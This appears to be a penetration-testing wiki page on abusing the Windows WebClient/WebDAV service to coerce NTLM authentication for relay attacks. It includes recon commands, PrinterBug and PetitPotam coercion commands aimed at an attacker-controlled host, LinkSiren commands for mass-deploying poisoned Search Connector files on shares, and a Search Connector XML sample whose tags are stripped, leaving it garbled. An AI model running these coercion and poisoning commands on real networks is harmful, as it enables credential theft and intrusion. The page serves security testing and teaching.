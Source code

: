 ```yaml
---
authors: ShutdownRepo, mpgn, sckdev, Pri3st, rtpt-romankarwacik
---
```


# WebClient abuse (WebDAV)

## Theory

> Web Distributed Authoring and Versioning (WebDAV) is an extension to Hypertext Transfer Protocol (HTTP) that defines how basic file functions such as copy, move, delete, and create are performed by using HTTP ([docs.microsoft.com](https://docs.microsoft.com/en-us/windows/win32/webdav/webdav-portal))

The WebClient service needs to be enabled for WebDAV-based programs and features to work. As it turns out, the WebClient service can be indirectly abused by attackers to coerce authentications. This technique needs to be combined with other coercion techniques (e.g. [PetitPotam](ms-efsr.md), [PrinterBug](ms-rprn.md)) to act as a booster for these techniques. It allows attackers to elicit authentications made over HTTP instead of SMB, hence heightening [NTLM relay](../ntlm/relay.md) capabilities.

## Practice

### Recon

Attackers can remotely enumerate systems on which the WebClient is running, which is not uncommon in organizations that use OneDrive or SharePoint or when mounting drives with a WebDAV connection string.

> [!TIP]
> Even if the WebClient service is not currently running on a remote system, the coercion techniques in the abuse section will cause it to start if it is installed and in the state "Manual (Triggered Start)", default for Windows 10 and Windows 11. By default, the WebClient service is not installed on Windows Servers beginning with Windows Server 2008 per [WebDAVSystem](https://www.webdavsystem.com/server/access/windows). 

::: tabs

=== UNIX-like

From UNIX-like systems, this can be achieved with [webclientservicescanner](https://github.com/Hackndo/WebclientServiceScanner) (Python) or using [NetExec](https://github.com/Pennyw0rth/NetExec) (Python).

```bash
webclientservicescanner 'domain.local'/'user':'password'@'machine'
netexec smb 'TARGETS' -d 'domain' -u 'user' -p 'password' -M webdav
```


=== Windows

From Windows systems, this can be achived with [GetWebDAVStatus](https://github.com/G0ldenGunSec/GetWebDAVStatus) (C, C#)

```bash
GetWebDAVStatus.exe 'machine'
```

:::


### Abuse

Regular coercion techniques rely on the attacker forcing a remote system to authenticate to another one. The "other" system is usually an IP address, a domain or NetBIOS name. With WebClient abuse, the other system needs to be supplied in a WebDAV Connection String format.

The WebDAV Connection String format is: `\\SERVER@PORT\PATH\TO\DIR`.

> [!TIP]
> To retrieve an authenticated connection, the remote server that attacker wants to victim to be relayed to [should be considered in the intranet zone](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html#getting-intranet-zoned). One way to do it is to use the NetBIOS or DNS name of the attacker machine instead of its IP address.
> 
> In order to have a valid NetBIOS name, [Responder](https://github.com/lgandx/Responder) can be used.
> 
> A heftier alternative is to do some [ADIDNS poisoning](adidns-spoofing.md), [non-secure dynamic DNS updates, or Microsoft Dynamic DHCP 
 DNS abuse](https://alittleinsecure.com/dns-hijacking-say-my-name/) using [DDSpoof](https://github.com/akamai/DDSpoof) to create and use a valid DNS entry.

Below are a few examples of WebClient abuse with [PrinterBug](../print-spooler-service/printerbug.md) and [PetitPotam](ms-efsr.md).

```bash
# PrinterBug
dementor.py -d "DOMAIN" -u "USER" -p "PASSWORD" "ATTACKER_NETBIOS_NAME@PORT/print" "VICTIM_IP"
SpoolSample.exe "VICTIM_IP" "ATTACKER_NETBIOS_NAME@PORT/print"

# PetitPotam
Petitpotam.py "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "VICTIM_IP"
Petitpotam.py -d "DOMAIN" -u "USER" -p "PASSWORD" "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "VICTIM_IP"
PetitPotam.exe "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "VICTIM_IP"
```

In addition to remote system accounts, an attacker may also force authentication from a remote user account that opens a folder containing a SearchConnector using Windows Explorer from a Windows system where the WebClient service is installed.
[LinkSiren](https://github.com/gjhami/LinkSiren) (Python) crawls and ranks accessible share locations based on the number of recently accessed files. It can then be used to deploy and cleanup poisoned Search Connector files at scale that coerce both SMB and HTTP authentication.

```bash
# Identify optimal poisoning locations from a file containing UNC paths of hosts, shares, or subfolders to crawl
linksiren identify --targets '/path/to/base_targets.txt' 'DOMAIN'/'USERNAME':'PASSWORD'

# Mass deploy poisoned Search Connectors to a list of target UNC paths to folders
linksiren deploy --targets '/path/to/foler_targets.txt' --attacker 'ATTACKER_NETBIOS_NAME' 'DOMAIN'/'USERNAME':'PASSWORD'

# Capture and relay incoming authentication

# Mass cleanup all poisoned Search Connectors
linksiren cleanup --targets '/path/to/payloads_written.txt' 'DOMAIN'/'USERNAME':'PASSWORD'
```

### Start the WebClient service

On a side note, making a remote system start the WebClient service can be done in many ways

::: tabs

=== Map a WebDAV server

By mapping a remote WebDAV server. This can be done by having Responder's server up and by running the `net use` cmdlet.

```shell
# starting responder (in analyze mode to prevent poisoning)
responder --interface "eth0" --analyze
responder -I "eth0" -A

# map the drive from the target WebClient needs to be started on
net use x: http://$RESPONDER_IP/
```


=== searchConnector-ms

With a [searchConnector-ms](https://docs.microsoft.com/en-us/windows/win32/search/search-sconn-desc-schema-entry) file uploaded to widely used share within the organisation. Each time a user browses the folder, the WebClient service will start transparently.

```xml
xml version="1.0" encoding="UTF-8"?

Microsoft Outlook
false
true

{91475FE5-586B-4EBA-8D75-D17434B8CDF6}


https://whatever/


```


=== Explorer

By opening an interactive session with the target (e.g. RDP), opening the Explorer, and type something in the address bar.

=== Service trigger

According to [tiraniddo's research](https://www.tiraniddo.dev/2015/03/starting-webclient-service.html), the webclient service is registered with a service trigger, meaning it can be started automatically in response to a specific system event.
A simple way to start the service in an unprivileged session is by compiling and executing the following [C# PoC](https://gist.github.com/klezVirus/af004842a73779e1d03d47e041115797) created by [klezVirus](https://gist.github.com/klezVirus).

=== SharpStartWebclient

By compiling and executing the [SharpStartWebclient](https://github.com/eversinc33/SharpStartWebclient) tool created by [eversinc33](https://github.com/eversinc33)

=== Beacon Object File

By using the following [BOF (Beacon Object File)](https://github.com/outflanknl/C2-Tool-Collection/blob/main/BOF/StartWebClient/SOURCE/StartWebClient.c) created by [outflanknl](https://github.com/outflanknl).

:::


## Resources

[https://www.webdavsystem.com/server/access/windows](https://www.webdavsystem.com/server/access/windows)
[https://pentestlab.blog/2021/10/20/lateral-movement-webclient](https://pentestlab.blog/2021/10/20/lateral-movement-webclient)
[https://www.tiraniddo.dev/2015/03/starting-webclient-service.html](https://www.tiraniddo.dev/2015/03/starting-webclient-service.html)
